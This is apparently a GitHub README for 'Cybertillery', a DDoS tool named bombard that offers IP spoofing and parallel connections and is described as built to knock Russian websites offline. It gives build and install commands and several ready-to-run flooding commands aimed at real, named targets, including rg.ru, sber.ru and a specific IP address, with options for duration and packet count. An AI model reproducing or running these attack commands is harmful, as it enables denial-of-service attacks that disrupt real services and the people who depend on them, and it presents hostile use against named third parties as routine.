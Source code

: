 # Cybertillery - to fire on nasty orcs

DDoS tool with IP spoofing and ability to use parallel connections.
Built specifically to bring russian orc websites down to their knees.

### Compile command

```bash
make
```

### Install command
```bash
make install
```

## Usage examples

### Attack with 10 connections using URL with protocol

```bash
sudo ./bombard -u https://rg.ru -c 10
```

### Attack with 4 connections using IP address and port

```bash
sudo ./bombard -a 194.190.37.226 -p 443 -c 4
```

### Attack for 60 seconds

```bash
sudo ./bombard -u rg.ru/ -p 443 -c 4 -d 60
```

### Send 1000000 packets

```bash
sudo ./bombard -u https://sber.ru -c 10 -n 1000000
```

## Notes

If an error like this occurs:

```bash
$ sudo bombard -c 8 -a 192.168.4.1 -p 80
sudo: bombard: command not found
```

It means that you need to specify the environment variable ``PATH``
for ``sudo`` manually. To do that, use following command instead:

```bash
sudo env "PATH=$PATH" bombard -c 8 -a 192.168.4.1 -p 80
```


